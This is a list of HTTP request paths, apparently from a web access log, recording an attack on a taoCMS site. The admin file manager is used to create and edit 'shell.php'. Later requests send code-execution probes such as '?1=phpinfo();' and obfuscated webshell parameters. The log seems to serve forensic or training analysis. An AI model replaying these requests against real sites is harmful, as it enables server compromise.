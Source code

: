 ```shell
/template/taoCMS/images/addthis.gif
/api.php?action=comment&ctrl=code
/?id=1
/api.php?action=comment&ctrl=code
/?cat=1
/
/?cat=1
/
/?id=1
/api.php?action=comment&ctrl=code
/admin/admin.php?action=comment&ctrl=lists
/admin/admin.php?action=link&ctrl=lists
/admin/admin.php?action=file&ctrl=lists
/admin/template/images/sub_arrow.gif
/admin/admin.php?path=&action=file&ctrl=create&isdir=0&name=&fbtn=%E6%96%B0%E5%BB%BA%E6%96%87%E4%BB%B6
/admin/admin.php?action=comment&ctrl=lists
/admin/admin.php?action=link&ctrl=lists
/admin/admin.php?action=file&ctrl=lists
/admin/admin.php?action=admin&ctrl=lists
/admin/admin.php?action=file&ctrl=lists
/admin/admin.php?path=&action=file&ctrl=create&isdir=0&name=shell.php&fbtn=%E6%96%B0%E5%BB%BA%E6%96%87%E4%BB%B6
/admin/admin.php?action=file&ctrl=lists&path=.
/admin/admin.php?action=file&ctrl=edit&path=./shell.php
/admin/template/images/tinyeditor.js
/admin/admin.php
/admin/admin.php?action=file&ctrl=lists
/shell.php
/favicon.ico
/admin/admin.php?action=file&ctrl=edit&path=shell.php
/admin/template/images/tinyeditor.js
/admin/admin.php
/admin/admin.php?action=file&ctrl=lists
/shell.php
/admin/admin.php?action=file&ctrl=edit&path=shell.php
/admin/template/images/tinyeditor.js
/admin/admin.php
/shell.php
/admin/admin.php?action=file&ctrl=lists
/shell.php
/
/data/tplcache/top.php
/data/tplcache/top.php?1=phpinfo();
/shell.php
/data/tplcache/top.php?1=phpinfo();
/shell.php
/favicon.ico
/shell.php
/wap/index.php?1=phpinfo();
/wap/template/images/mobile.css
/wap/template/images/time.gif
/wap/template/images/logo.gif
/wap/index.php?1=phpinfo();
/shell.php
/wap/index.php?1=phpinfo();
/shell.php
/wap/top.php?1=phpinfo();
/shell.php
/wap/top.php?fuc=ERsDHgEUC1hI&func2=ser
/wap/top.php?fuc=ERsDHgEUC1hI&func2=sert
/shell.php
```